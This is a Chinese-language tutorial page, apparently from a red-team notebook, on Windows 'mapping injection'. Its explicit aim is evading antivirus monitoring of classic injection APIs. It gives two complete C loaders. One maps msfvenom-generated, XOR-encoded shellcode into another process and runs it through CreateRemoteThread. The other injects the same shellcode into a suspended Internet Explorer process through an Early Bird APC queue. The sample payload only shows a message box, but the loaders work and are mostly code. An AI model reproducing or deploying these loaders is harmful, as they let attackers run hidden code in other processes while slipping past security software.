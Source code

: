 ```yaml
---
description: Mapping Injection
---
```


# Mapping Injection

## 简介

映射注入是一种内存注入技术，可以避免使用一些经典注入技术使用的API,如VirtualAllocEx,WriteProcessMemory等被杀毒软件严密监控的API，同时创建Mapping内核对象本质上属于申请一块物理内存，而申请的物理内存又能比较方便的通过系统函数直接映射到进程的虚拟内存里，这也就避免使用经典写入函数，增加了隐蔽性。

![](../.gitbook/assets/image%20%2817%29.png)

## 注入流程

1. 在注入进程创建mapping
2. 将mapping映射到注入进程虚拟地址
3. 往被映射的虚拟地址写入shellcode
4. 打开被注入进程句柄
5. 将mapping映射到被注入进程虚拟地址
6. 创建远程线程

## 代码实现

PS:CreateFileMapping存在多种用法,并非只有这一种。

```text
#include <windows.h>
#include <stdio.h>
#pragma comment (lib, "OneCore.lib")


//msfvenom -p windows/x64/messagebox -e x64/xor_dynamic -i 15 EXITFUNC=thread  -f c
unsigned char shellcode[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41\x51"
"\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x3e\x48"
"\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72\x50\x3e\x48"
"\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02"
"\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x3e"
"\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48\x01\xd0\x3e\x8b\x80\x88"
"\x00\x00\x00\x48\x85\xc0\x74\x6f\x48\x01\xd0\x50\x3e\x8b\x48"
"\x18\x3e\x44\x8b\x40\x20\x49\x01\xd0\xe3\x5c\x48\xff\xc9\x3e"
"\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41"
"\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24"
"\x08\x45\x39\xd1\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x3e\x41\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e"
"\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41"
"\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7\xc1"
"\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e\x4c\x8d"
"\x85\x2b\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83\x56\x07\xff"
"\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x48\x65\x6c\x6c\x6f"
"\x2c\x20\x66\x72\x6f\x6d\x20\x4d\x53\x46\x21\x00\x4d\x65\x73"
"\x73\x61\x67\x65\x42\x6f\x78\x00";

int main(int argc, char** argv)
{

	

	HANDLE hMapping = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, sizeof(shellcode), NULL);

	LPVOID lpMapAddress = MapViewOfFile(hMapping, FILE_MAP_WRITE, 0, 0, sizeof(shellcode));

	memcpy((PVOID)lpMapAddress, shellcode, sizeof(shellcode));

	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 19752);

	LPVOID lpMapAddressRemote = MapViewOfFile2(hMapping, hProcess, 0, NULL, 0, 0, PAGE_EXECUTE_READ);

	HANDLE hRemoteThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)lpMapAddressRemote, NULL, 0, NULL);

	UnmapViewOfFile(lpMapAddress);
	CloseHandle(hMapping);
	return 0;
}
```

## 扩展与优化

在前面的章节中说过CreateRemoteThread这样敏感的API也会被杀毒软件重点关注，那么我们同时可以使用别的代码执行方式，比如说APC注入和Early Bird等注入技术，mapping注入技术也可以作为一种非常规的shellcode写入技术使用，我们并不用拘泥与常规的使用方式，也可以与已有技术组合出新的代码执行链。

* 与Early Bird技术组合

```text
#include <windows.h>
#include <stdio.h>
#pragma comment (lib, "OneCore.lib")


//msfvenom -p windows/x64/messagebox -e x64/xor_dynamic -i 15 EXITFUNC=thread  -f c
unsigned char shellcode[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41\x51"
"\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x3e\x48"
"\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72\x50\x3e\x48"
"\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02"
"\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x3e"
"\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48\x01\xd0\x3e\x8b\x80\x88"
"\x00\x00\x00\x48\x85\xc0\x74\x6f\x48\x01\xd0\x50\x3e\x8b\x48"
"\x18\x3e\x44\x8b\x40\x20\x49\x01\xd0\xe3\x5c\x48\xff\xc9\x3e"
"\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41"
"\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24"
"\x08\x45\x39\xd1\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x3e\x41\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e"
"\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41"
"\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7\xc1"
"\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e\x4c\x8d"
"\x85\x2b\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83\x56\x07\xff"
"\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x48\x65\x6c\x6c\x6f"
"\x2c\x20\x66\x72\x6f\x6d\x20\x4d\x53\x46\x21\x00\x4d\x65\x73"
"\x73\x61\x67\x65\x42\x6f\x78\x00";

	int main() {
		STARTUPINFO si = { 0 };
		PROCESS_INFORMATION pi = { 0 };
		si.cb = sizeof(STARTUPINFO);
		HANDLE hMapping = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, sizeof(shellcode), NULL);

		LPVOID lpMapAddress = MapViewOfFile(hMapping, FILE_MAP_WRITE, 0, 0, sizeof(shellcode));

		memcpy((PVOID)lpMapAddress, shellcode, sizeof(shellcode));

		CreateProcessA("C:\\Program Files\\internet explorer\\iexplore.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW, NULL, NULL, (LPSTARTUPINFOA)&si, &pi);

		LPVOID lpMapAddressRemote = MapViewOfFile2(hMapping, pi.hProcess, 0, NULL, 0, 0, PAGE_EXECUTE_READ);

		QueueUserAPC((PAPCFUNC)lpMapAddressRemote, pi.hThread, NULL);
		ResumeThread(pi.hThread);
		CloseHandle(pi.hThread);
		CloseHandle(hMapping);
		UnmapViewOfFile(lpMapAddress);
		return 0;
	}

```

![](../.gitbook/assets/image%20%2816%29.png)

* github:[https://github.com/idiotc4t/Mapping-injection](https://github.com/idiotc4t/Mapping-injection)

## LINKS

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffile2" %}



